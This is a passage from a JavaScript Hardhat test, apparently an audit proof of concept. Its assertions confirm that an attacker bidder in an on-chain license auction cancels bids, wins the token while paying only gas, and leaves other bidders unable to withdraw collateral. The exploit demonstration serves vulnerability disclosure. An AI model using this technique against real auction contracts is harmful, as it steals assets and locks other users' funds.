 ```javascript
    // The attacker bidder canceled the bids, and the balances were returned
    const bidder1_balanceAfterCancelingBids = await ethers.provider.getBalance(
      bidder1.address
    );
    expect(bidder1_balanceAfterCancelingBids.add(gasSpentByBidder)).to.be.equal(bidder1_initialBalance);

    await instance.connect(bidder2).closeAuction(0);

    const newBeneficiaryBalance = await ethers.provider.getBalance(
      nonOwner.address,
    );

    expect(await instance.availableCollateral(owner.address)).to.be.equal(bidder1_bidAmount);

    const highestBid = await instance['highestBid(uint256,uint256)'](0, 0);
    const bidder1Bid = await instance['bidOf(uint256,uint256,address)'](
      0,
      0,
      bidder1.address,
    );

    expect(await instance.availableCollateral(bidder1.address)).to.be.equal(
      0,
    );

    expect(bidder1Bid.collateralAmount).to.be.equal(0);

    expect(highestBid.bidder).to.be.equal(bidder1.address);
    expect(highestBid.bidAmount).to.be.equal(bidder1_bidAmount);
    expect(highestBid.feeAmount).to.be.equal(bidder1_feeAmount);
    expect(highestBid.collateralAmount).to.be.equal(0);

    // The attacker bidder got away with the token by just paying the fee, and not the whole bid amount
    expect(await licenseMock.ownerOf(0)).to.be.equal(bidder1.address);

    const bidder1_finalBalance = await ethers.provider.getBalance(
      bidder1.address
    );
    // The attacker bidder only had to pay some gas to win the token
    expect(bidder1_initialBalance.sub(bidder1_finalBalance)).to.be.equal(gasSpentByBidder);

    // The other bidders cannot withdraw their collateral,
    // as their funds went into covering the fee for the attacker bidder
    await expect(instance.connect(bidder2).cancelAllBidsAndWithdrawCollateral(0)).to.be.reverted;

    // Fee is distributed to beneficiary
    expect(newBeneficiaryBalance.sub(oldBeneficiaryBalance)).to.be.equal(
      bidder1_feeAmount,
    );
  });
});
```
